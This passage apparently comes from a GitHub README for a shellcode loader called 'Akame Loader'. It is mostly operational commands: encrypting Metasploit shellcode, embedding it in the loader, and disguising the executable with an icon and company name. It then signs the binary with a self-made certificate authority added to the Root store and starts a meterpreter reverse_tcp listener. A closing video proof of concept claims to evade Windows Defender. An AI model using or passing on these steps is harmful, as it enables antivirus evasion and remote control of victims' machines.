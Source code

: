 **2. Encrypt your shellcode with encrypt.exe<br>**
- Metasploit: <br>
`mv shellcode.bin \Akame Loader\x64\Release\Resources\` <br>
`cd \Akame Loader\x64\Release\Resources\` <br>
`encrypt --help (optional, to view the manual)`<br>
`encrypt.exe -l cpp -m file -i shellcode.bin -e random -o cli`<br>
- Other: <br>
Use a python script ([example](https://github.com/djackreuter/shellcode-encryption)) to encrypt the shellcode with AES256.

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV Key, your KEY and your shellcode into the existent buffers<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to your executable and AkameCert/AkameCA to whatever you want<br>
- `move Akame.exe Resources && cd Resources`<br>
- `makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer`<br>
- `certutil -user -addstore Root AkameCA.cer`<br>
- `makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer`<br>
- `pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx`<br>
- `signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe`
  
**7. Listen for incomming connections<br>**
- Metasploit:<br>
`msfconsole -q`<br>
`use exploit/multi/handler`<br>
`set payload windows/x64/meterpreter/reverse_tcp`<br>
`show options` (optional)<br>
`set LHOST *IP*`<br>
`set LPORT *PORT*`<br>
`exploit`<br>
- Other:<br>
start listening for connections

## Video POC
Platform: Windows 10 x64 <br>
Antivirus: Windows Defender 24/10/2022 <br>
<video src='https://user-images.githubusercontent.com/78364462/197958813-9075bdca-2154-47e2-a7a9-52a7d62bbb4c.mp4'></video>
! 720p because I can't upload video files bigger than 10MB on github <br>
! Blackscreens in the video caused by UAC

